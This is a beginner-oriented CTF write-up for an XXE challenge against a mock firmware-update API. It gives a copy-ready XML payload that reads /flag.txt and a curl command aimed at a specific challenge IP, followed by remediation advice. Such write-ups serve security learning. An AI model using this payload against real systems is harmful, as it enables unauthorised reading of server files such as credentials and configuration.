 # Jailbreak — Super Beginner-Friendly Writeup

**Challenge name:** Jailbreak
**Points:** 900

---

## 🧠 What this challenge is about

You are given a fake “firmware update” service that reads XML files. The goal is to find a way to make it **leak the contents of a secret file** called `/flag.txt` on the server.

You can do this using an XML trick called **XXE (XML External Entity)**.

---

## 🧩 What’s happening (in very simple terms)

XML lets you define *entities* — placeholders that can stand for text or files.
If a server is not careful, an attacker can say:

> “Hey XML parser, please read this file and put it right here.”

And the server will do it! 😱

That’s what we do in this challenge.

We’ll define an entity that points to the flag file: `file:///flag.txt`.
Then we’ll insert that entity in the XML, and when the server reads the XML, it will replace it with the flag.

---

## 📘 Quick explanation of terms

| Term        | What it means                                                                    |
| ----------- | -------------------------------------------------------------------------------- |
| **XML**     | A structured way to send data, like HTML but for data.                           |
| **DOCTYPE** | A section at the top of XML that defines custom shortcuts (entities).            |
| **ENTITY**  | A shortcut that can hold text or a file’s contents.                              |
| **XXE**     | When a hacker uses an ENTITY to make the server read files or data it shouldn’t. |

---

## 🪄 Step-by-step guide

1. The server has an endpoint `/api/update` that accepts XML input.
2. We send XML that defines an ENTITY named `xxe`, which points to `/flag.txt`.
3. We use `&xxe;` inside the XML. The `&xxe;` part gets replaced with whatever is inside `/flag.txt`.
4. The server then returns the parsed XML — including the flag!

---

## 🧾 The XML payload (copy this)

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt">]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>1.33.7&xxe;</Version>
    <ReleaseDate>2077-10-21</ReleaseDate>
    <Description>Update test</Description>
  </Firmware>
</FirmwareUpdateConfig>
```

### 💡 How it works

* The line `<!ENTITY xxe SYSTEM "file:///flag.txt">` tells the parser: “The entity `xxe` means the contents of `/flag.txt`.”
* The part `&xxe;` means “insert that entity here.”
* So the parser will replace `&xxe;` with whatever is in `/flag.txt`.

Example:

```xml
<Version>1.33.7FLAG{super_secret_flag}</Version>
```

---

## 💻 Example using `curl`

Open your Terminal (on Mac/Linux) or PowerShell (on Windows) and paste this command:

```bash
curl -s -X POST 'http://94.237.57.211:57541/api/update' \
  -H 'Content-Type: application/xml' \
  --data-binary $'<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt">]>\n<FirmwareUpdateConfig>\n  <Firmware>\n    <Version>1.33.7&xxe;</Version>\n  </Firmware>\n</FirmwareUpdateConfig>'
```

After pressing **Enter**, look at the output.
If it worked, you’ll see something like this:

```
<Response>
  <Version>1.33.7FLAG{this_is_the_flag}</Version>
</Response>
```

🎉 The flag is `FLAG{this_is_the_flag}`!

---

## 👀 What you should see

Look for a string that looks like `FLAG{something}`.
That’s your flag. Copy it and submit it on the CTF site.

If you don’t see anything, make sure:

* You sent to the **right IP and port**.
* You used **Content-Type: application/xml**.
* You copied the payload exactly.

---

## ⚠️ Why this works (and why it’s dangerous)

* The server’s XML parser is **too trusting**.
* It allows `DOCTYPE` and `ENTITY` processing.
* So you can make it read files on the server (like `/flag.txt`).

In the real world, this could leak passwords, config files, or API keys.

---

## 🔧 How to fix this (for developers)

**Don’t let XML parsers read external entities!**

Examples:

**Python (safe parsing)**

```python
from defusedxml.ElementTree import fromstring
xml_data = fromstring(xml_input)  # safe parser, blocks XXE
```

**Java (disable DTD)**

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

Or use **JSON** instead of XML when possible.

---

## 🪶 Quick recap

✅ XML parser reads files if misconfigured
✅ `<!ENTITY xxe SYSTEM "file:///flag.txt">` defines a file reference
✅ `&xxe;` inserts the file contents into XML
✅ Server returns that → you get the flag

---

## 🚫 Legal note

This technique is for **educational and CTF use only**.
Never test real websites or systems without permission.

---

## ✨ Summary for beginners

| Step | What you do                    | Why it matters                      |
| ---- | ------------------------------ | ----------------------------------- |
| 1    | Create XML payload with ENTITY | Tells XML parser to read a file     |
| 2    | Send to `/api/update` endpoint | The server parses it                |
| 3    | Parser replaces `&xxe;`        | You get the contents of `/flag.txt` |
| 4    | Look for `FLAG{                |                                     |
